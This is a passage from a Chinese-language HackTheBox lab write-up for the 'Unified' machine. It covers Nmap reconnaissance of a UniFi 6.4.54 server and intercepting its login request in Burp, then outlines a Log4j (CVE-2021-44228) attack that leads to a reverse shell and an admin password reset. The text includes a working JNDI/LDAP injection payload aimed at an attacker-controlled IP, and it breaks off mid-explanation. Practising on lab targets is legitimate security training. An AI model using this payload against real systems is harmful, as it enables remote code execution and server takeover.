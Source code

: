 ```yaml
---
description: https://app.hackthebox.com/starting-point
---
```


# Unified



{% file src="../../../.gitbook/assets/615132a1-fa92-4b66-862a-5f76f2214258.pdf" %}

### 前言

本篇WP探究在一个名为“UniFi”的网络应用监视系统中利用Log4j的影响。本次靶机会向您展示为利用Log4j漏洞，如何去建立和安装所需的软件包和工具。之后，我们会操纵一个名为remember的请求头来进行反弹shell。同时，靶机上还有一个MongoDb实例，通过修改保存在实例中的hash值，就可以改变管理员的密码，然后我们就可以访问管理员登陆面板了。最后，通过面板的信息泄露得到管理员的SSH密码。

### 信息收集

第一步是用Nmap扫描目标IP，并查看哪个端口是开放的。以下是Nmap各项参数项的简单解释：

```
-sC：使用默认的脚本集进行脚本扫描，等价于 --script=default
-sV：版本探测
-V：提升详细等级，这会使得Nmap在扫描过程中打印更多信息。
```

![](<../../../.gitbook/assets/image (9).png>)

扫描显示8080端口正运行着一个HTTP代理，该代理看起来会将请求重定向到8443端口，而8443端口应该是一个SSL web服务器。更具体地说，我们发现8443端口默认页面的HTTP标题是“UniFI Network”。

使用浏览器访问一下该页面，出现了一个“UniFI”登录页面，版本号是6.4.54，具体如下图所示：

![](<../../../.gitbook/assets/image (10).png>)

给出了软件名、软件版本号，那么我们比较好的思路就是用搜索引擎查询一下有无相关的漏洞存在。

谷歌搜索：UniFy 6.4.54 exploit。发现有一篇文章详细地谈论了和UniFy有关的一个漏洞，具体编号是CVE-2021-44228。该漏洞具体和Log4j有关，下面我们简要说明一下Log4j。

> 如果你想进一步学习Log4j漏洞，建议你参看[此篇](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)文章。

![](<../../../.gitbook/assets/image (7).png>)

我们可通过注入操作系统命令来利用Log4J漏洞。Log4J漏洞是一种web安全漏洞，允许攻击者在运行着Log4J应用的服务器上执行任意的操作系统命令。通常情况下，通过利用Log4J漏洞，攻击者可以完全接管应用程序及其所有数据。

为了确定靶机是否存在Log4J漏洞，我们首先需要向 /api/login 处发送一个POST请求，随后使用类似于BurpSuite这样的工具拦截该请求并编辑请求注入Log4J的payload。如果你不知道如何拦截并修改web请求，可以参看[此处](https://academy.hackthebox.com/module/details/110)。

> 利用FoxyProxy可以便捷地将浏览器发送的请求传递给Burp

![](<../../../.gitbook/assets/image (11).png>)

首先，我们在登录页面随便输入一个账号密码然后点击提交，这时候会发起一个web请求，我们用burp拦截该请求。

在我们修改请求之前，可以先将该请求发送到Burp的Repeater模块，该操作对应的快捷键是CTRL+R。

### 漏洞利用

之前谷歌出来的文章告诉我们，需要将payload注入到remember参数中。因为POST的数据是通过JSON发送的，并且payload包含花括号，所以为了预防payload被解释成JSON对象，我们需要用双引号把payload闭合起来，这样它就是一个字符串了。

![](<../../../.gitbook/assets/image (8).png>)

如上图所示，将payload注入remember字段，若服务器回连到我们，那么就可以确认靶机存在漏洞。

```java
${jndi:ldap://{Tun0 IP Address}/whatever}
```

JNDI的全称是Java Naming and Directory Interface API。通过调用该API，应用程序可以定位到资源和其他程序对象。资源就是一个提供了到系统的连接的程序对象，比如数据库服务器和消息系统。

LDAP的
